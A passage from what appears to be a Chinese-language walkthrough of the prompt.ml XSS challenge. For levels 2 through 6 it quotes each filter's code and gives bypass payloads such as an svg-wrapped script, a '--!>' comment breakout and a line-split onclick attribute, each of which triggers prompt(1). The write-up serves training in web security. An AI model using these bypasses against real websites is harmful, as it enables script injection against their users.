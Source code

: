 * 但是还需要反实例化，这里需要了解[浏览器的解析机制](https://xz.aliyun.com/t/5863)

  加一个`<svg>`标签

  ```html
  <svg><script>prompt&#40;1)</script>
  ```


## 3

```js
input = input.replace(/->/g, '_');
return '<!-- ' + input + ' -->';
```

可以见到`->` 被替换成`_` ，最后输出被加上了注释，无法闭合。

尝试将`->`分开的闭合方式，如`--!>`

payload:

```
--!><script>prompt(1)</script>
```

## 4

```
http://prompt.ml%2f@localhost/hack.js
```

但是被禁用了

## 5

```javascript
input = input.replace(/>|on.+?=|focus/gi, '_');
return '<input value="' + input + '" type="text">';
```

可以看到过滤了`<`, `onclick=` , `focus`

但是可以将`onclick` 和`=`分开，换行就好

payload:

```
"onclick
="prompt(1)
```

## 6

给了提示    `formURL#formDataJSON`

当输入：`123456#{"aaa":"Matt"}`，时，返回了

```html
<form action="123456" method="post"><input name="aaa" value="Matt"></form>
<script>                                                  
    // forbid javascript: or vbscript: and data: stuff    
    if (!/script:|data:/i.test(document.forms[0].action)) 
        document.forms[0].submit();                       
    else                                                  
        document.write("Action forbidden.")               
</script> 
```
